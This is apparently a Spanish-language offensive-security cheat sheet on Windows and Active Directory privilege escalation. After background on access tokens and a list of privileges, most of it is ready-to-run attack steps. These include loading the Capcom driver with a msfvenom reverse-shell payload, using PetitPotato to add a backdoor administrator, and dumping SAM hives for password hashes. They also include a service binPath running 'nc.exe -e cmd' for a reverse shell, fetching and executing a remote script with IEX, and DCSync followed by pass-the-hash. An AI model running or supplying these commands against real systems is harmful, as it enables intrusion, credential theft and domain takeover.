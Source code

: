 # Escalación de privilegios en Windows 

Tags: #AD #Windows #SeImpersonatePrivilege #SeAssignPrimaryTokenPrivilege

* [Escalacion-Privilegios-Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [Abusando de Tokens Windows - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

## Tokens de acceso 

Los tokens de acceso en Windows son estructuras de datos que almacenan la información de seguridad y de usuario asociada a un proceso o hilo. Estas estructuras son esenciales dentro del modelo de seguridad de Windows, ya que definen los derechos y privilegios asignados a un proceso o hilo específico en el sistema.

A continuación, se presentan detalles clave sobre los tokens de acceso en Windows:

```bash 
1. Tipos de Tokens: Hay dos tipos principales de tokens en Windows:
    
    - Token de usuario: Representa a un usuario que se ha autenticado con éxito. Está asociado con todos los procesos iniciados por ese usuario.
    - Token primario: Es el token asociado con un proceso cuando se inicia.
    - Token de impersonación: Permite a un hilo actuar con diferentes niveles de privilegio de su proceso contenedor. Es útil, por ejemplo, cuando un servicio necesita realizar tareas con privilegios diferentes.
        
    
2. Información en Tokens: Un token de acceso contiene información como:
    
    - Identificador de usuario (User SID): Identifica al usuario asociado con el token.
    - Grupos SID: Identifica a los grupos de los que el usuario es miembro.
    - Privilegios: Define acciones específicas que el usuario puede realizar, como apagar el sistema o cambiar la hora del sistema.
    - Tipo de token: Indica si el token es primario o de impersonación.
    - Nivel de impersonación: Si es un token de impersonation, este campo especifica el nivel (Anónimo, Identificación, Impersonación, Delegación).
    - Discretionary Access Control List (DACL): Especifica qué objetos puede acceder el portador del token y con qué permisos.
        
    
3. Impersonation: Esta es una característica clave en Windows que permite a un hilo tomar el token de otro usuario y "impersonarlo", es decir, actuar con los privilegios de ese usuario. Es útil en situaciones como servidores que necesitan acceder a recursos en nombre de un cliente.
    
4. Token Stealing: En el contexto de la seguridad, los tokens de acceso pueden ser objeto de abuso por parte de atacantes. Si un atacante logra comprometer un proceso o hilo con privilegios elevados, puede "robar" el token asociado y usarlo para impersonar a ese usuario o proceso de alto privilegio, facilitando la escalación de privilegios o el movimiento lateral.
    
5. Creación de Tokens: Los tokens de acceso se crean durante el proceso de autenticación. Cuando un usuario inicia sesión en una máquina Windows, el sistema genera un token de acceso que representa al usuario y a todos sus grupos y privilegios asociados.
    
6. Modificación de Tokens: A través de APIs específicas, es posible modificar tokens, aunque generalmente esto requiere privilegios elevados. Esta capacidad puede ser abusada por malware o atacantes para alterar los derechos y permisos de un token.
```

Los tokens de acceso desempeñan un papel fundamental en la infraestructura de seguridad de Windows. Brindan una notable flexibilidad para la gestión de identidades y accesos, aunque también pueden convertirse en un posible punto de ataque si no se manejan y protegen de forma adecuada. Por ello, es esencial que los administradores y expertos en seguridad entiendan su funcionamiento y las medidas necesarias para prevenir su uso indebido.

## Privilegios en Windows

* [Niveles de integridad - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)

En los sistemas operativos Windows, los privilegios son permisos otorgados a las cuentas de usuario y servicios, los cuales determinan las acciones que pueden ejecutarse en el sistema. Estos privilegios regulan aspectos clave de la seguridad y la administración del sistema, permitiendo desde la modificación del reloj del sistema hasta la gestión de registros y configuraciones de seguridad. A continuación, te presento una lista de los privilegios disponibles en Windows, aunque es importante tener en cuenta que esta lista puede variar ligeramente según la versión del sistema operativo.

```bash 
1. SeAssignPrimaryTokenPrivilege: Asignar un token primario a un proceso.
2. SeAuditPrivilege: Generar eventos de auditoría de seguridad.
3. SeBackupPrivilege: Omitir comprobaciones de permisos para realizar operaciones de respaldo.
4. SeChangeNotifyPrivilege: Omitir la notificación de cambio de directorio.
5. SeCreateGlobalPrivilege: Crear objetos globales.
6. SeCreatePagefilePrivilege: Crear un archivo de paginación.
7. SeCreatePermanentPrivilege: Crear objetos permanentes.
8. SeCreateSymbolicLinkPrivilege: Crear enlaces simbólicos.
9. SeCreateTokenPrivilege: Crear un token de objeto.
10. SeDebugPrivilege: Depurar programas.
11. SeEnableDelegationPrivilege: Habilitar la delegación de seguridad.
12. SeImpersonatePrivilege: Impersonar a un cliente después de la autenticación.
13. SeIncreaseBasePriorityPrivilege: Aumentar la prioridad de proceso.
14. SeIncreaseQuotaPrivilege: Aumentar cuotas de proceso.
15. SeIncreaseWorkingSetPrivilege: Aumentar el conjunto de trabajo de un proceso.
16. SeLoadDriverPrivilege: Cargar y descargar controladores de dispositivos.
17. SeLockMemoryPrivilege: Bloquear páginas en memoria.
18. SeMachineAccountPrivilege: Agregar equipos al dominio.
19. SeManageVolumePrivilege: Realizar mantenimiento de volumen.
20. SeProfileSingleProcessPrivilege: Realizar monitoreo de rendimiento.
21. SeRelabelPrivilege: Modificar etiquetas de integridad de objetos.
22. SeRemoteShutdownPrivilege: Forzar el apagado desde un sistema remoto.
23. SeRestorePrivilege: Omitir comprobaciones de permisos para realizar operaciones de restauración.
24. SeSecurityPrivilege: Administrar auditoría y registro de seguridad.
25. SeShutdownPrivilege: Apagar el sistema.
26. SeSyncAgentPrivilege: Sincronizar datos de directorio.
27. SeSystemEnvironmentPrivilege: Modificar la configuración del entorno del firmware.
28. SeSystemProfilePrivilege: Realizar monitoreo de rendimiento del sistema.
29. SeSystemtimePrivilege: Cambiar la hora del sistema.
30. SeTakeOwnershipPrivilege: Tomar propiedad de archivos u otros objetos.
31. SeTcbPrivilege: Actuar como parte del sistema operativo.
32. SeTimeZonePrivilege: Cambiar la zona horaria.
33. SeTrustedCredManAccessPrivilege: Acceder a credenciales guardadas de manera segura.
34. SeUndockPrivilege: Desacoplar el sistema de la base.
35. SeUnsolicitedInputPrivilege: Leer la entrada no solicitada del terminal interactivo.
```  

Cada uno de estos privilegios otorga la capacidad de realizar acciones concretas en el sistema que pueden influir en su configuración, seguridad y funcionamiento general. Los administradores del sistema deben gestionar y asignar estos privilegios con cuidado para garantizar la seguridad y el correcto desempeño de los sistemas Windows.

## Privilegios Windows para escalar 

```bash 
❯ whoami /priv        # Muestra los privilegios del usuario actual 
```

```powershell 
1. 'SeLoadDriverPrivilege' = Permite 'cargar drivers firmados' que se ejecutan con permisos del 'kernel (ring 0)'. Si puedes cargar un 'driver malicioso' (uno que eleva privilegios), te puedes convertir en 'NT AUTHORITY\SYSTEM' o incluso ejecutar código arbitrario en el núcleo


Pasos:
❯ https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp    # Copiar el codigo en Visual studio creando un nuevo proyecto 'Aplicación de consola'. Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'EoPLoadDriver.exe' a la máquina Windows comprometida
❯ https://github.com/FuzzySecurity/Capcom-Rootkit/tree/master/Driver    # Descargar el archivo 'Capcom.sys' y transferirlo a la máquina Windows comprometida
❯ .\EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Windows\Temp\Capcom.sys  # Cargar el driver y debe de mostrar 'NTSTATUS: 00000000, WinError: 0'
❯ https://github.com/tandasat/ExploitCapcom   # Descargar el proyecto completo en zip para abrirlo desde Visual Studio. Modificar la linea de 'LaunchShell' y colocar "C:\\ProgramData\\reverse.exe". Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'ExploitCapcom.exe' a la máquina Windows comprometida
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o reverse.exe  # Crear el archivo al cual llamará 'ExploitCapcom.exe' al momento de ejecutarse y transferirlo a la máquina Windows comprometida
❯ .\ExploitCapcom.exe        # Ejecutar el archivo en Windows y obtener la revershell en Kali 

Notas:
	1. Si al momento de compilar da un error, eliminar '#include "stdafx.h"' y volverlo a compilar
	2. La ruta donde compila los archivos la muestra en la consola 
	3. Para obtener la revershell se debe estar en escucha con 'Netcat'
```

```powershell
2. 'SetImpersonatePrivilege' = Abusando de 'SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege'. Si un usuario tiene los privilegios antes mencionados se puede aprovechar para obtener acceso a nivel de SYSTEM


Pasos:
❯ https://github.com/wh0amitz/PetitPotato/releases/tag/v1.0.0   # Descargar el archivo y transferirlo a la máquina Windows comprometida 
❯ PetitPotato.exe 3 cmd         # Crear una cmd con rl usuario 'NT Authority\System' 
	# EfsID = '3' es el numero de API a usar
❯ PetitPotato.exe 3 "whoami"    # Ejecutar un comando  
❯ PetitPotato.exe 3 "net user omar P4ssw0rd /add"               # Crear un user siendo 'NT Authority\System'
❯ PetitPotato.exe 3 "net localgroup Administrators omar /add"   # Agregar el usuario al grupo 'Administrators'
❯ PetitPotato.exe 3 "net user Omar"                             # Mirar el grupo de un usuario en especifico

Notas:
	1. Despues de crear un usuario para tener persistencia, podemos ingresar a con RDP si esta abierto el puerto '3389'
	2. También se pude utilizar 'RottenPotato o JuicyPotato'
```

```powershell
3. 'SeBackupPrivilege' = Permite leer cualquier archivo del sistema, ignorando sus permisos NTFS. Se puede copiar archivos críticos del sistema como el 'SAM, SYSTEM o NTDS.dit', incluso si no tiene permisos NTFS explícitos para ello. Estos archivos contienen información sensible como: 'Hashes de contraseñas locales, Credenciales de cuentas del dominio (si es un DC) y Configuraciones de seguridad'


Pasos:
❯ mkdir C:\Temp        # Crear un directorio en la maquina Windows e ingresar a el        
❯ reg save hklm\sam C:\temp\sam.hive            # Hacer una copia de la SAM al directorio creado y se descarga
❯ reg save hklm\system C:\temp\system.hive      # Hacer una copia del system y se descarga 

❯ impacket-secretsdump -sam sam.hive -system system.hive LOCAL     # Dumpear los hashes de los usuarios

Notas:
	1. https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md      # Forma de explotar 
```

## Grupos Windows para escalar 

```bash 
❯ net user <user>     # Mirar los grupos del usuario 
```

```powershell
1. 'Azure Admins' = Si puedes acceder a Azure AD Connect desde un usuario del grupo 'Azure Admins', puedes extraer credenciales privilegiadas y 'escalar a Domain Admin'.


Pasos: 
❯ https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0   # Descargar el archivo AdDecrypt.zip y extraer su contenido para obtener 'AdDecrypt.exe, mcrypt.dll' y transferir los archivos a la máquina Windows comprometida
❯ 'C:\Program Files\Microsoft Azure AD Sync\Bin'  # Ir a la siguiente ruta y ejecutar el 'AdDecrypt.exe'
❯ AdDecrypt.exe -FullSQL      # Ejecutar la herramienta para extraer credenciales del usuario Admin 

Notas: 
	1. El AdDecrypt.exe y mcrypt.dll se deben de encontrar en la misma carpeta
```

```powershell 
2. 'Server Operators' = Si pertenece a este grupo en un sistema Windows, se tiene ciertos privilegios elevados 'localmente' sobre los servidores y se puede 'iniciar, detener, configurar, crear, reiniciar realizar backups' sobre los servicios existentes.


Pasos:
❯ nc.exe     # Descargar y tranferir el archivo a la máquina Windows comprometida para hacer la Revershell
❯ services   # Mirar todos los servicios que se estan ejecutando 
❯ sc.exe create <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Crear un servicio 
❯ sc.exe config <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Modificar un servicio 
❯ sc.exe stop <service>         # Detener un servicio 
❯ sc.exe start <service>        # Iniciar un servicio 
```

```powershell 
3. 'LAPS_Readers' =  Los miembros del grupo 'LAPS\Readers' tienen 'permiso de lectura' sobre los atributos de Active Directory donde se almacenan las 'contraseñas locales administradas automáticamente'. Por lo tanto, se puede leer la contraseña del administrador local de las máquinas unidas al dominio, conectarte con esa contraseña y tomar el control de la máquina como 'administrador local'.


Pasos:
❯ https://github.com/kfosaaen/Get-LAPSPasswords   # Descargar 'Get-LAPSPasswords.ps1' y transferirlo a la máquina Windows comprometida
❯ IEX (New-Object Net.WebClient).DownloadString('https://IP/Get-LAPSPasswords.ps1')  # Importar el modulo 
❯ Get-LAPSPasswords          # Ejecutar la función para obtener la password de Administrator
```

```powershell
4. 'Account Operators' = Si se esta en el grupo con 'GenericAll' sobre 'Exchange Windows Permissions' se puede crear un usuario y agregarlo al grupo. Además, si se tiene un usuario en el grupo 'Exchange Windows Permissions' con 'WriteDacl', se puede ejecutar un DCSync sobre el dominio para obtener los hashes de todos los usuarios y hacer un Pass-The-Hash


Pasos:
❯ net user omar P4ssw0rd /add /domain       # Crear un usuario a nivel de dominio por pertenecer al grupo 'Account Operators'
❯ net group "Exchange Windows Permissions" omar /add     # Agregar al usuario al grupo 'Exchange Windows Permissions'
❯ net group        # Mirar los grupos existentes 
❯ net user omar    # Mirar la info del usuario 


# Agregar el privilegio de DCSync al usuario  
❯ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
	# password = Contraseña del usuario 
❯ $Cred = New-Object System.Management.Automation.PSCredential('domain1.local\user', $SecPassword)
❯ Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=domain1,DC=local" -PrincipalIdentity user -Rights DCSync 
	# user = Usuario que se agrego en la variable $Cred

Notas: 
	1. El comando de 'Add-DomainObjectAcl' solo se puede ejecutar cuando se carga el módulo de 'PowerView.ps1'


# Hacer DCSync desde Kali 
❯ impacket-secretsdump domain1.local/user@IP-DC    # Ejecutar el DCSync con el usuario creado
	# IP-DC = La dirección IP del DC  
❯ impacket-psexec domain1.local/Administrator@IP cmd.exe -hashes :hash   # Utilizar 'psexec' para ingresar con el usuario 'Administrator' haciendo 'Pass-The-Hash'    
```

